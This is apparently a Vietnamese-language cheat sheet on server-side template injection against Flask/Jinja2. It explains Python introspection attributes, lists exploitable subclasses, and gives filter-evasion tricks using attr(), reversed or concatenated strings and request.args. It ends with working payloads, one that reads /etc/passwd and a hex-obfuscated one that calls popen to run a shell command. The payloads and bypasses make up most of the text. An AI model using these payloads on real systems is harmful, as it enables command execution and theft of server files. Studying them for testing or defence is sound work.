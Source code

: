 * __class__ trả về lớp của đối tượng hiện tại.
* __bases__ cho phép truy cập tới lớp cha của đối tượng hiện tại.
* __subclasses__() trả về danh sách các lớp con của đối tượng hiện tại.
* __init__ là phương thức khởi tạo lớp.
* __globals__ trả về tất cả module, phương thức, biến có thể sử dụng.


_frozen_importlib._ModuleLock
_frozen_importlib._DummyModuleLock
_frozen_importlib._ModuleLockManager
_frozen_importlib._installed_safely
_frozen_importlib.ModuleSpec
_frozen_importlib_external.FileLoader
_frozen_importlib_external._NamespacePath
_frozen_importlib_external._NamespaceLoader
_frozen_importlib_external.FileFinder
codecs.IncrementalEncoder
codecs.IncrementalDecoder
codecs.StreamReaderWriter
codecs.StreamRecoder
os._wrap_close
_sitebuiltins._Printer
types.DynamicClassAttribute
types._GeneratorWrapper
warnings.WarningMessage
warnings.catch_warnings
contextlib._GeneratorContextManagerBase
contextlib._BaseExitStack

## bypass filter

* Sử dụng request.args === request.values
request.args là một đối tượng trong framework Flask của Python, chứa tất cả các đối số được truyền từ URL vào ứng dụng Flask.
{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(40)(request.args.path).read()}}&path=/etc/passwd
* Sử dụng attr()
Có thể kết hợp | và hàm attr() để bypass các ký tự bị filter như .. Ví dụ:
()|attr('__class__')
* Kỹ thuật đảo ngược chuỗi
{{()['__ssalc__'[::-1]]}}
* Kỹ thuật ghép chuỗi
()['__cla'+'ss__']
* Sử dụng hàm lower()
* Sử dụng hàm pop()




# Payload
{{()["\x5f\x5fclass\x5f\x5f"]["\x5f\x5fmro\x5f\x5f"][1]["\x5f\x5fsubclasses\x5f\x5f"]()[127]["\x5f\x5finit\x5f\x5f"]["\x5f\x5fglobals\x5f\x5f"]["popen"]("cat\x20app\x2epy")["read"]()}}
